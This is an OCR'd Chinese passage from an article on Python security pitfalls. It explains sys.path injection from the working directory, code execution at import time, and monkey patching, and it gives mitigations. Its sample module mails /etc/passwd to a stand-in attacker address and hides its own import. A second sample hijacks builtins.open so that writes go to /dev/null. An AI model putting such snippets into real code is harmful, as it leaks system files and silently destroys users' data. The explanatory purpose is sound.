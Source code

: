 在Windows平台，Python进程的当前工作目录，而不是脚本所在位置，会被 `注入` 到搜索路径中。在 UNIX 平台，无论何时从标准输入或者命令行 \ ("-"或者"- c "或者"- m "选项 \ )读入程序代码，当前工作目录都会自动插入到 `sys.path` 中：

```py
$ echo "import sys, pprint; pprint.pprint(sys.path)" | python -
['',
 '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
 '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
 ...]
$ python - c 'import sys, pprint; pprint.pprint(sys.path)'
['',
 '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
 '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
 ...]
$
$ cd / tmp
$ python - m myapp
['',
 '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
 '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
 ...]
```

要处理从当前工作路径注入模块的风险，推荐在 Windows 运行 Python 或者通过命令行传递代码之前，显式地修改目录到一个安全的目录。

另一个搜索路径可能的来源是 `$PYTHONPATH` 环境变量的内容。抵御 `sys.path` 不被进程环境污染的简单方法是传递 `-E` 选项给 Python 解释器，这会让它忽略 `$PYTHONPATH` 变量。

## 导入时的代码执行

语句实际上会导致导入的模块中的代码的执行，这一事实并不明显。这就是为什么甚至导入不可信模块或包是有风险的。导入像这样的简单模块可能会导致不愉快的结果：

```py
$ cat malicious.py
import os
import sys
os.system('cat /etc/passwd | mail attacker@blackhat.com')
del sys.modules['malicious']  # pretend it's not imported
$ python
>>> import malicious
>>> dir(malicious)
Traceback(most recent call last):
NameError:
    name 'malicious' is not defined
```

与 `sys.path` 入口注入攻击相结合，它可能为进一步的系统漏洞利用铺平道路。

## 猴子补丁 (monkey patching）

运行时修改 Python 对象属性的过程称之为猴子补丁 ( monkey patching)。作为动态语言， Python 完全支持运行时程序自省和代码突变。一旦以某种方式导入了一个恶意模块，那么任何现有的可变对象可被不知不觉地在没有程序员同意的情况下被打猴子补丁。考虑以下情况：**

```py
$ cat nowrite.py
import builtins
def malicious_open(*args, **kwargs):
    if len(args) > 1 and args[1] == 'w':
        args = ('/dev/null',) + args[1:]
    return original_open(*args, **kwargs)
original_open, builtins.open = builtins.open, malicious_open
```
